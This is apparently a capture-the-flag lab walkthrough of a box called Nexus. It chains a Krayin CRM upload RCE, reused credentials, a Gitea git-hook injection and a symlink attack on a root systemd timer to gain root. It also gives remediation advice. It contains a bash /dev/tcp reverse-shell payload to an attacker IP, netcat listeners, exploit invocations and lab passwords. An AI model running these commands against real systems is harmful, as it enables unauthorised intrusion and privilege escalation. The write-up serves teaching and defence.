Nexus
A Krayin CRM authenticated file-upload RCE gets a shell as www-data. The app's
.env holds a database password that is reused by jones for SSH. An
internal Gitea instance is exposed via SSH port-forwarding; the running version is vulnerable to
CVE-2026-60004, a diffpatch git-hook injection that runs code as the git OS user.
As git, a root-owned systemd timer that syncs Gitea template repos is turned against
itself with a symlink: the script follows the link and writes a controlled file into
/root/.ssh/, placing a public key there and allowing a direct SSH login as root.
Nexus chains four distinct techniques together, and none of them need a brute-force. The chain is methodical: each foothold hands you exactly one credential or capability, and you spend the box figuring out where to use it next. Good practice for the habit of taking notes and always asking "where else could this work?"
01Recon & Enumeration
Starting with an Nmap scan to see what we are working with:
$ nmap -sC -sV -T4 <IP>Two open ports come back: 22 (SSH) and 80 (HTTP). The HTTP response also reveals the domain name
nexus.htb. Whenever I see port 22, I like to quickly rule out anonymous SSH access before
moving on.

After confirming SSH won't let us in without real credentials, port 80 is the more interesting
target. Add nexus.htb to /etc/hosts first.

The site presents itself as a Nexus Energy Authority — news, information, the usual corporate front page. Click through everything, check Wappalyzer, and read the source. A job posting linked from the site has a couple of useful details buried at the bottom.


j.matthew@nexus.htb) and the subdomain hint careers.nexus.htbTwo things worth noting: a hiring manager's email address j.matthew@nexus.htb, and
a subdomain careers.nexus.htb. The subdomain just redirects back to the main site even
after adding it to /etc/hosts, but its existence is a hint that other subdomains
might actually go somewhere. Write down the email — it looks like a login credential waiting to be
paired with a password we haven't found yet.
02Directory & Subdomain Discovery
Directory scan
$ gobuster dir -u http://10.129.234.54 \
-w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt \
-t 50 -x php,html,txt,bak --exclude-length 154A quick breakdown of the flags used here:
dir— brute-force directories and files by appending each wordlist entry to the URL.-t 50— 50 parallel threads. Faster, but louder. Fine for a lab, tune down if stealth matters.-x php,html,txt,bak— try each word with these extensions too. Match the extension set to the tech stack you identified.--exclude-length 154— hides responses of exactly 154 bytes (the catch-all 302 redirect), so only genuinely different pages appear.- You can also add
-o results.txtto save output for your notes.

Nothing interesting on the path side, so let's hunt for subdomains since we already have reason to believe they exist.
Virtual host / subdomain scan
$ gobuster vhost -u http://nexus.htb \
-w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
--append-domain -t 50Key flags here:
vhost— changes theHost:header on each request instead of the path, discovering sites served off the same IP.--append-domain— appends the base domain so each word becomesword.nexus.htb. Required on modern Gobuster, or it sends bare words.

git.nexus.htb and billing.nexus.htb with a path of /admin/loginTwo new subdomains: git.nexus.htb and billing.nexus.htb. Add them both to
/etc/hosts and investigate.

/etc/hosts updated with all discovered hostnames03Source code recon — git.nexus.htb

git.nexus.htb runs a Gitea instance

.env, docker-compose.yml, and a Documents folderA code repository is essentially the blueprint of an application. Even if the deployed app is locked down, the blueprint shows you every door, window, and sometimes a few things that should have stayed in the developer's private workspace (secret doors, so to speak).
What is Krayin? It's an open-source Customer Relationship Management (CRM) app built on Laravel, a popular PHP framework. The repo here is a Docker deployment configuration for running an instance of it. If you don't recognize an app, Google it — that's how you find default credentials, known CVEs, or default login paths for something you've never seen before.
Three files in the repo stand out:
Documents— a folder created by a human, which means it can hold anything they thought worth saving.docker-compose.yml— lists every service, exposed port, and environment variable. Sometimes DB credentials land here inline..env— a plaintext config file that apps read at startup. This should never be committed to a public repo.

.env file — a goldmine of configuration detailsInteresting values from .env:
billing.nexus.htb— confirms the subdomain we already found.imap.nexus.htb— another hostname to explore later.IMAP_USERNAME=username1/IMAP_PASSWORD=password1— very generic, but note them.APP_DEBUG=true/APP_ENV=local— debug mode exposed in production. Not our attack vector here, but a real finding.DB_PASSWORD=— empty right now, but the key is we know it exists.

docker-compose.yml — confirms the service architectureThe compose file shows krayin-phpmyadmin on port 8080, the DB password pulled from
${DB_PASSWORD} (meaning it lives in .env), and the Krayin app on port 80.
The DB host is internal to the container network, so we can't reach MySQL directly from outside —
but knowing the username krayin is useful.
Git commit history
Git stores every past version of every file. Even deleted content lives in old commits.
Tools like trufflehog or gitleaks can automate hunting for leaked secrets
across an entire history — very useful when you're dealing with large repos. Here we can do it
manually because there aren't many commits.


nexus.htb to billing.nexus.htbThe color coding tells the story: green lines were added, red lines were removed. The previous
commit had a real DB_PASSWORD — N27xh!!2ucY04 — that someone then deleted
to "clean up" the repo. Too late. We also see the URL was changed from nexus.htb to
billing.nexus.htb in the same commit. Note all of this and move on.
04Foothold — Krayin CRM RCE

billing.nexus.htb — a Krayin login page asking for email and passwordThe login page wants an email and a password. We have a candidate for each: j.matthew@nexus.htb
from the job posting, and the DB password N27xh!!2ucY04 from the commit history. This
is the moment where having taken notes pays off — the email was found several steps ago in a completely
different context.

We're logged in as what appears to be an admin user. Let's find the version of Krayin we're running and look for known vulnerabilities.

A search for Krayin 2.2.0 CVE quickly turns up
Exploit-DB 52629: an
authenticated file-upload RCE through the TinyMCE image upload handler.
image/jpeg
slips straight through. The file is saved to a web-accessible path, and visiting it makes the server
execute our code. The script handles CSRF tokens automatically — it scrapes the login page for a
hidden _token field, logs in, and reuses the same session for the upload. Think of it
as letting a lion into the monkey exhibit because it's wearing a lanyard that says "Monkey."
We need a reverse shell to go with the exploit. A classic choice is
pentestmonkey's PHP reverse shell —
edit the $ip and $port variables to your tun0 IP and a port
of your choice, then save it as reverse.php. Set up the listener first:
$ nc -lvnp 4444Then run the exploit. Note: the password contains !! which bash expands as history
— single-quote the password to stop that:
$ python3 exploit.py http://billing.nexus.htb j.matthew@nexus.htb 'N27xh!!2ucY04' reverse.php

www-data. Shell upgraded with python3 -c 'import pty;pty.spawn("/bin/bash")' and export TERM=xterm05Lateral movement — www-data → jones
First, figure out who we are and what we have access to:

/home/jones and /home/git — both off-limits for now
id — we are the web server user www-dataAs www-data, we have access to the web application's files — specifically
/var/www/. That's exactly where a Laravel app's .env would live, and
unlike the version in the public git repo, the one on disk is the real running configuration:

/var/www/krayin — the live app directory
.env is right there
.env has a real DB password: y27xb3ha!!74GbRInteresting — the password in the running app's .env is different from the one
in the git history. That's fine: we have two passwords now. The more useful question is whether
either one has been reused as a system login password. Let's check which users can actually log in:
$ cat /etc/passwd | grep -v nologin | grep -v false
root, sync, jones, gitTry jones first with the live .env password. Single-quote it again because
of the ! characters:
$ su jones # password: y27xb3ha!!74GbR (single-quoted at the prompt)
jones
/home/jones/user.txt [redacted]SSH in as jones for a stable shell before going further:
$ ssh jones@nexus.htb # same password
jones06Internal service discovery — Gitea on port 3000
Standard checks as jones:

sudo -l blank, no interesting groups, SUID binaries are all default — nothing obvious hereNo immediate escalation path from jones. Let's look at what's running on the machine
that isn't visible from the outside:
$ ss -tlnp
127.0.0.1 only — invisible from outside, but accessible from inside the boxThe public-facing ports (0.0.0.0:22 and 0.0.0.0:80) we already knew
about. Port 3000 bound to 127.0.0.1 is new — that's the default Gitea port. Remember
the git user we saw in /home/? These two facts belong together.
Port 3306/33060 is MySQL and port 53 is DNS — ignore those for now.
SSH local port forwarding
To browse an internal web service, we tunnel it out through our existing SSH connection. Run this from your attack box (not from inside the target):
$ ssh -L 3000:127.0.0.1:3000 jones@<TARGET_IP>-L 3000:127.0.0.1:3000 tells SSH to open port 3000 on your local machine and
forward anything that hits it through the tunnel to 127.0.0.1:3000 on the target.
Now browsing http://127.0.0.1:3000 on your own machine shows the internal Gitea.

Login as jones with the same password:


j.matthew@nexus.htb was for J. Matthews — maybe you noticed that already
Clicking around doesn't turn up anything dramatically new in the repo content. But that version number in the corner is a sore thumb. A quick search for Gitea CVEs for this version brings up CVE-2026-60004.
diffpatch endpoint. A user with ordinary repository
write access can smuggle attacker-controlled content into a git hook. Server-side hooks fire on
receive/commit events and run as the Gitea service account — in this case, the git
OS user. We don't need to push from a local git client; the exploit drives everything through the
web API. See the advisory at
GHSA-rcr6-4jqh-j84m.
07Pivot — jones → git (CVE-2026-60004)
Create a repository in Gitea (the web UI will do — just click the + icon).

Build the PoC script from the advisory, then run it. Make sure the SSH tunnel is still open and the listener is ready before firing:
# 1. Listener on your attack box
$ nc -lvnp 4444
# 2. Run the exploit (through the tunnel)
$ python3 poc.py http://127.0.0.1:3000 jones \
"bash -c 'bash -i >& /dev/tcp/<YOUR_TUN0_IP>/4444 0>&1'"

git. Stabilize the shell the same way as before.$ python3 -c 'import pty; pty.spawn("/bin/bash")'
$ export TERM=xterm08Post-exploitation as git — container check & custom scripts
Three standard checks as git — id, sudo -l, and SUID
binaries — all come back the same as jones: nothing unusual. Before doing anything
else, confirm we are on a real host and not inside a container, because that changes what "root"
even means:
$ ls -la /.dockerenv
$ cat /proc/1/cgroup
/etc/gitea.No /.dockerenv, and /proc/1/cgroup showing 0::/init.scope
means PID 1 is systemd on a bare host. Root is real root. We don't need to escape anything.
Inside /etc/gitea we also find two files that don't ship with any standard Gitea
installation: template-sync.py and template-sync.conf. These are custom
additions. Let's read them.
The Python script (template-sync.py) reads Gitea template repositories via the
API and extracts their files into a staging directory on disk:
STAGING_DIR = "/home/git/template-staging"
# For each file in each template repo, it does:
os.makedirs(target_dir, exist_ok=True) # creates the path if missing
# ...then writes the file content there
# Full destination path pattern:
# /home/git/template-staging/<owner>/<reponame_lowercased>/<filepath>The .conf file holds a Gitea API token (redacted here — don't publish yours either).
/home/git as the git user. The script is going to write files to
paths inside that directory — paths we can control the shape of before the script runs.
If we can redirect where those writes land, we can write files anywhere on the system that root
can reach.
09Scheduled jobs — finding the root timer
concept: abusing root-run scheduled jobs
A custom script that does file writes is interesting, but only if it runs with elevated privileges. Let's check what runs automatically and as whom. Check both cron and systemd timers — both can schedule root jobs:
# System-wide crontab + any cron.d entries
$ cat /etc/crontab; ls -la /etc/cron.d/ 2>/dev/null
# Find what references our script in systemd
$ grep -rn 'template-sync' /etc/systemd /etc/cron* 2>/dev/null
ExecStart=/usr/bin/python3 /etc/gitea/template-sync.py — no User= line means it runs as root$ systemctl list-timers --all 2>/dev/null
gitea-template-sync.timer — fires roughly every 60 secondsThe crontab came back clean (nothing custom there). The systemd unit, however, runs
template-sync.py as root every ~60 seconds with no User= directive — meaning
it inherits root from the service manager. We have a root-owned script writing files into a directory
we control, on a 60-second loop.
10Privilege escalation — symlink attack → root
concept: symlink attacks (TOCTOU write-redirection)
The primitive
A symlink is just a file that points to another path. When a program opens
/home/git/template-staging/jones/test/authorized_keys and test is actually
a symlink pointing to /root/.ssh, the program writes to
/root/.ssh/authorized_keys — it follows the link without question.
The script runs as root and writes to /home/git/template-staging/<owner>/<name>/<file>.
We own the parent directory. If we pre-create the <name> segment as a symlink pointing
to /root/.ssh, root's script will write our file into that root-only location for us.
Step 1 — Generate an SSH keypair on your attack box
$ ssh-keygen -f ./nexus_key
nexus_key (private, keep it) and nexus_key.pub (public, this goes into the repo)Step 2 — Create a template repo in Gitea with an authorized_keys file
Create a new repo in Gitea as jones. Add a file named exactly authorized_keys
containing the contents of your nexus_key.pub. Commit it to main.

authorized_keys
nexus_key.pub
The script lowercases the repo name when building the staging path. A repo named Test
becomes test, so the staging path becomes
/home/git/template-staging/jones/test. That's the path we need to control.
Step 3 — Plant the symlink (race the timer)
If the timer has already fired, it may have created /home/git/template-staging/jones/test/
as a root-owned directory, which would block our symlink. The fix: move the whole staging tree aside
(we own /home/git, so we can rename things there), then recreate the path cleanly and
drop our symlink. Do this in one line to minimize the race window:
$ mv /home/git/template-staging /home/git/template-staging.bak \
&& mkdir -p /home/git/template-staging/jones \
&& ln -s /root/.ssh /home/git/template-staging/jones/testStep 4 — Verify the symlink
$ ls -la /home/git/template-staging/jones/
/root/.ssh symlink in place">test -> /root/.ssh — the symlink is correctly in placeStep 5 — Wait for the timer and check the log
$ cat /var/log/template-sync.log
authorized_keys through our symlinkThe log line synced: authorized_keys under jones/Test means root just
wrote our public key into /root/.ssh/authorized_keys.
Step 6 — SSH in as root
$ ssh -i nexus_key root@<TARGET_IP>
/root/root.txt — [redacted]11Root cause & remediation
| Unsafe file upload (Krayin) CVE-2026-38526 / TinyMCE upload handler |
Validate file content (magic bytes), not just the MIME label. Store uploads outside the webroot, or serve them through a handler that sets a non-executable content type. Never execute uploaded files. |
| Secrets in version control Deleted credentials still live in git history |
Rotate any credential that ever touched a commit. Treat git history as permanent public record — deletion does not remove data from prior commits. Use .gitignore and pre-commit hooks to block secrets before they land. |
| Password reuse across services One DB password opened SSH, Gitea, and more |
Unique, random credentials per service. A single compromised secret should not cascade across multiple accounts and systems. |
| Gitea diffpatch hook RCE CVE-2026-60004 — patched in 1.27.1 |
Update to Gitea ≥ 1.27.1. Restrict who can push to repositories on the instance; limit blast radius by running Gitea as a least-privilege user with no shell access to other accounts' data. |
| Symlink-unsafe file write as root Systemd timer writing to a user-controlled path |
Any root-run process that writes to a path under a non-root-owned directory must validate that no symlinks are present in the path. Use O_NOFOLLOW or equivalent, or keep staging directories root-owned. Running the timer service as a dedicated non-root user would also contain the blast radius. |
12Takeaways
Nexus is a straightforward chain, but it earns the "easy" rating by keeping each step clear rather than trivial. A few habits that made the difference here:
Take notes on everything, not just the obvious stuff. The hiring manager's email from a job posting became a Krayin login credential three steps later. The commit-history password became an SSH password after that. Neither of those connections is obvious in the moment — they only pay off because you wrote them down.
Every credential found is a candidate for reuse everywhere else. This box uses the same password across SSH, Gitea, and CRM login. That's contrived for a lab, but it's also genuinely common in real environments. Credential spraying is boring; credential noting and reusing strategically is the habit that actually works.
When a process runs as root and writes to a path you control, that's an arbitrary write primitive.
The template-sync script wasn't broken code — it was doing exactly what it was designed to do.
The flaw was that root was writing into a directory tree that the git user could reshape.
Symlink attacks against root scripts are a pattern worth recognizing instantly: the moment you see
a root job writing to a user-writable path, think "symlink."
Check both cron and systemd timers. Root jobs can be scheduled either way and it's easy to miss one if you only check the other. Both are worth the two seconds they take to scan.